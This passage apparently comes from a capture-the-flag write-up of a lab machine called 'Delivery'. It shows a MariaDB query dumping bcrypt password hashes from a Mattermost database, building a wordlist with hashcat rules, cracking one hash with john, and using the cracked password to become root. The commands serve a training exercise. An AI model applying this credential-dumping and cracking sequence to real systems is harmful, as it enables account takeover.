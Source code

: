 ```bash
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.                                                  
                                                                                                                      
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.                                        
                                                                                                                      
MariaDB [mattermost]>
```
Once we are in we can do a show tables; too see what thables do we have in this DB, describe Users; to seee user's table column and then:  
```
MariaDB [mattermost]> SELECT username, password FROM Users; 
+----------------------------------+--------------------------------------------------------------+
| username                         | password                                                     |
+----------------------------------+--------------------------------------------------------------+
| b0d                              | $2a$10$dEND2rHuiQS7y7Al0NSiV.7vCghQ5g6ltWabZlnm3QxRKs5qoYrIW |
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| b0d2                             | $2a$10$RcpBXt4OAlXkT4Mw.YhX9urrLPl1c.e0/6pAdtpIHpoWL/Es.fFdK |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
```
As we can see we get a bunch of hashes.  
These hashes are in a bcrypt format. bcrypt is based on blowfish and might be tough to crack wit rockyou.  
Now, to reduce the number of attempts, we can follow the int found on mattermost and generate a dictionary using the following `hashcat` command:  
```bash
[root@kali Delivery ]$ hashcat pass_reuse.txt -r /usr/share/hashcat/rules/best64.rule --stdout > passwords.txt 
```
Now that we have a dictionary we can try to crack the hash using `john`
```
[root@kali Delivery ]$ john --wordlist=passwords.txt hash.txt                   
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
PleaseSubscribe!21 (?)     
1g 0:00:00:00 DONE (2022-05-30 23:10) 1.960g/s 70.58p/s 70.58c/s 70.58C/s PleaseSubscribe!12..PleaseSubscrio
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Now, hoping the best of luck let's try to su as root:  
```bash
maildeliverer@Delivery:/dev/shm/.work/sucrack/src$ su -    
Password:                                                  
root@Delivery:~#   
```
  
